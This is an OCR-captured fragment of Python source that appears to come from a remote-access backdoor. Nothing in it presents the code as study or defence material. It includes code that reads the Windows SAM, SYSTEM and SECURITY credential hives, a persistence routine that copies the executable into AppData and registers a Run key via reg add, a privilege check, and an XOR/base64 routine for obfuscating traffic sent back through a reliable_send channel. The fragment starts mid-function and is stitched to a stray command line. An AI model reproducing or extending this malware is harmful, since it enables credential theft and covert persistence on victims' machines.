 ``` command = "python.exe ""C:\Users\YourUsername\AppData\Local\Temp\msserver.py"""```
        security_file.close()

        return sam_data, system_data, security_data
    except PermissionError:
        return "Insufficient permissions to access SAM, SYSTEM, or SECURITY files."
    except FileNotFoundError:
        return "SAM, SYSTEM, or SECURITY file not found. Please check the file paths."
    except Exception as e:
        return f"An unexpected error occurred: {str(e)}"


def persist(reg_name, copy_name):
    file_location = os.environ["appdata"] + "\\" + copy_name
    try:
        if not os.path.exists(file_location):
            shutil.copyfile(sys.executable, file_location)
            subprocess.call(
                "reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v "
                + reg_name
                + ' /t REG_SZ /d "'
                + file_location
                + '"',
                shell=True,
            )
            reliable_send("[+] Created Persistence With Reg Key: " + reg_name)
        else:
            reliable_send("[+] Persistence Already Exists")
    except:
        reliable_send("[-] Error Creating Persistence With The Target Machine")


def startup_persist(file_name):
    pass


def is_admin():
    global admin
    if platform == "win32":
        try:
            temp = os.listdir(
                os.sep.join([os.environ.get("SystemRoot", "C:\\windows"), "temp"])
            )
        except:
            admin = "[!!] User Privileges!"
        else:
            admin = "[+] Administrator Privileges!"
    elif platform == "linux" or platform == "linux2" or platform == "darwin":
        pass


def highly_secure_payload(data, flag):
    if flag:
        data = bytearray(data.encode())
        for i in range(len(data)):
            data[i] = data[i] ^ i
        data = base64.b64encode(data).decode()
    else:
        data = bytearray(base64.b64decode(data))
        for i in range(len(data)):
            data[i] = data[i] ^ i
        data = data.decode()
    print(data)
    return data
```